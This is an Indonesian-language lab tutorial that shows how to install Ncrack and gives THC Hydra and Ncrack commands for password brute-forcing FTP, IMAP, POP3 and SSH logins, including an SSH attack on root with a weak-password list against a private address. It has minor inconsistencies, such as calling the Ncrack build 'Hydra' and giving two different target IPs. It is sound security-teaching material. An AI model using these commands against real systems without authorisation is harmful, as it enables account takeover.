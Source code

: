INSTALASI NCRACK
----------------
- **Step 1**    : Download source code Ncrack
```
wget https://nmap.org/ncrack/dist/ncrack-0.5.tar.gz
```
- **Step 2**    : Untuk menkonfigurasi, compile dan menginstall Hydra, ketik kode berikut di terminal:
```
tar -xzf ncrack-0.5.tar.gz
cd ncrack-0.5
./configure
make
su root
make install
```

SUPPORTED PLATFORMS
-------------------
- Semua platform UNIX (Linux, *bsd, Solaris, etc.)
- MacOS
- Windows dengan Cygwin (IPv4 and IPv6)
- Mobile systems based on Linux, MacOS or QNX (e.g. Android, iPhone, Blackberry 10, Zaurus, iPad)

CARA PENGGUNAAN
---------------
**Contoh**:
```
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```
Pertama, Siapkan file yang terdiri dari kumpulan password yang dipisahkan oleh baris atau download [disini](/assets/ncrack-hydra/500-worst-passwords.txt). Pada uji coba kali ini, kita akan mencoba melakukan _brute force attack_ pada protokol SSH ke ip address `10.151.36.98` dengan asumsi username `root` dan list password menggunakan file yang telah disiapkan, jalankan perintah dibawah ini pada terminal :
```
ncrack -p 22 --user root -P 500-worst-passwords.txt 10.151.254.180
```
![](/assets/ncrack-hydra/ncrack-berhasil.png)
KESIMPULAN
----------
Dengan uji coba yang telah dilakukan, Ncrack dapat berhasil menyerang protokol ssh dengan _brute force attack_ jika password dari target terdapat didalam file password yang dibuat oleh penyerang dengan waktu 90 detik, berarti proses serangan dengan Ncrack lebih cepat dari THC Hydra. Jika password tidak terdapat dalam file, maka serangan akan gagal.







